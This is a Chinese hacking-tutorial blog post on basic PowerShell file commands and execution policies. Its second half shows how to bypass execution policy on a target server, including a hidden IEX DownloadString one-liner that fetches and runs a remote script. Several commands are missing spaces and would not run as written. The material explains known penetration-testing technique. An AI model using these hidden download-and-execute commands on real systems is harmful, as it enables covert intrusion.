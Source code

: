 ```yaml
---
layout: post
category: binghe-code-hack
title: PowerShell基本命令和绕过权限执行
tagline: by CurleyG
tag: [hack,binghe-code-hack]
excerpt: PowerShell基本命令和绕过权限执行
lock: need
---
```


# PowerShell基本命令和绕过权限执行

## 基本命令 

以文件操作为例

## 新建目录

```
New-Item whitecellclub-ItemType Directory
```

## 新建文件

```
New-Item light.txt-ItemType File
```

## 删除目录

```
Remove-Item whitecellclub
```

## 显示文件内容

```
Get-Content test.txt
```

## 设置文本内容

```
Set-Content test.txt-Value"Hello World!"
```

## 追加内容

```
Add-Content light.txt-Value"i love you"
```

## 清除内容

```
Clear-Content test.txt
```

## 执行策略

获取执行策略

```
Get-ExecutionPolicy
```

策略分以下几种：

- Restricted: 脚本不能执行(默认)
- RemoteSigned: 本地创建的脚本可以运行，但从网上下载的脚本不能运行(拥有数字证书签名的除外)。
- AllSigned: 仅当脚本由受信任的发布者签名时才能运行。
- Unrestricted: 允许所有的script运行

可以使用如下命令格式设置PowerShell的执行策略

```
Set-ExecutionPolicy <Policy name>
```

## 绕过策略来执行脚本

如果要运行PowerShell脚本程序，必须用管理员权限将Restricted策略改成Unrestricted,所以，在渗透时，需要采用一些方法绕过策略来执行脚本

## 绕过本地权限执行

上传xxx.ps1到目标服务器，在CMD环境下，在目标服务器本地执行该脚本

```
PowerShell.exe-ExecutionPolicy Bypass-File xxx.ps1
```

## 本地隐藏绕过权限执行脚本

```
PowerShell.exe-ExecutionPolicy Bypass-WindowStyle Hidden-NoLogo-NonInteractive-NoProfile-File xxx.ps1
```

## 用IEX下载远程PS1脚本绕过权限执行

```
PowerShell.exe-ExecutionPolicy Bypass-WindowStyle Hidden-NoProfile-Nonl IEX (New-ObjectNet.WebClient).DownloadString("xxx.ps1");[Parameters]
```

以上命令的参数说明：

- ExecutionPolicy Bypass : 绕过执行安全策略，这个参数非常重要，在默认情况下，PowerShell的安全策略规定了PowerShell不允许运行命令和文件。通过设置这个参数，可以绕过任意一个安全规则。在渗透测试中，基本每一次运行PowerShell脚本时都要使用这个参数。
- WindowStyle Hidden ： 隐藏窗口
- NoLogo : 启动不显示版权标志的PowerShell
- NonInteractive (-Nonl) : 非交互模式，PowerShell不为用户提供交互的提示
- NoProfile (-Nop): PowerShell控制台不加载当前用户的配置文件
- Noexit : 执行后不退出Shell。这在使用键盘记录等脚本时非常重要。
- PowerShell脚本在默认情况下无法直接运行，这时就可以使用上述三种方法绕过安全策略，运行PowerShell脚本。


## 写在最后

> 如果你觉得冰河写的还不错，请微信搜索并关注「 **冰河技术** 」微信公众号，跟冰河学习高并发、分布式、微服务、大数据、互联网和云原生技术，「 **冰河技术** 」微信公众号更新了大量技术专题，每一篇技术文章干货满满！不少读者已经通过阅读「 **冰河技术** 」微信公众号文章，吊打面试官，成功跳槽到大厂；也有不少读者实现了技术上的飞跃，成为公司的技术骨干！如果你也想像他们一样提升自己的能力，实现技术能力的飞跃，进大厂，升职加薪，那就关注「 **冰河技术** 」微信公众号吧，每天更新超硬核技术干货，让你对如何提升技术能力不再迷茫！


![](https://img-blog.csdnimg.cn/20200906013715889.png)
